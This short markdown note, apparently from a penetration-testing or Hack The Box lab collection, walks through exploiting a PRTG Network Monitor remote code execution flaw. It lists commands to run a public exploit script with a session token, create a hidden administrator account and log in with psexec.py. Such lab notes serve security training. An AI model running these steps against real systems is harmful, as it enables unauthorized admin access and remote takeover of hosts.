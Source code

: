 # Netmon RCE

1. Download [prtg-exploit.sh](https://github.com/M4LV0/PRTG-Network-Monitor-RCE)
2. Find a valid set of credentials by exploiting any weakness in the system. Login into the PRTG Network Monitor (< 18.2.39) web interface.
3. Run the exploit using a valid session token, and create a new administrator account on the system

        ./prtg-exploit.sh -u http://10.10.10.2 -c "OCTOPUS1813713946=SESSION_ID_HERE"

4. Login into the remote machine using [psexec.py](https://www.sans.org/blog/psexec-python-rocks/) tool and the new admin credentials `pentest`:`P3nT3st!` 

        psexec.py pentest:'P3nT3st!'@10.10.10.4

## References

* https://github.com/M4LV0/PRTG-Network-Monitor-RCE
* https://davidhamann.de/2020/01/22/htb-writeup-netmon/
